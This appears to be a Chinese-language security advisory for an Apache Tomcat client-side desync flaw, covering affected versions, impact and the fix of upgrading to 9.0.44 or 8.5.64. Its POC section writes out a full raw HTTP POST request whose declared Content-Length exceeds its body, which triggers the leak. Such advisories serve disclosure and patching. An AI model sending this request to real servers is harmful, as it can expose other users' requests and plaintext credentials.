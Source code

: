 # 漏洞描述

Apache Tomcat 不完整的 POST 请求触发了错误响应，该响应可能包含来自其他用户的先前请求的数据。

当 Web 服务器无法正确处理 POST 请求的内容长度时，就会出现客户端不同步 (CSD) 漏洞。通过利用此行为，攻击者可以强制受害者的浏览器取消与网站的连接同步，从而导致敏感数据从服务器和/或客户端连接中走私。

在某些情况下，这可能会泄露敏感数据，例如明文凭据

# 受影响的版本

Apache Tomcat 9.0.0-M11 至 9.0.43

Apache Tomcat 8.5.7 至 8.5.63

# 严重性

高危

# 影响

攻击者可以强制受害者的浏览器取消与网站的连接同步，从而导致敏感数据从服务器或客户端连接中走私。

# POC

```yaml
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

# 修复建议

受影响版本的用户应应用以下缓解措施之一：

- 升级到 Apache Tomcat 9.0.44 或更高版本
- 升级到 Apache Tomcat 8.5.64 或更高版本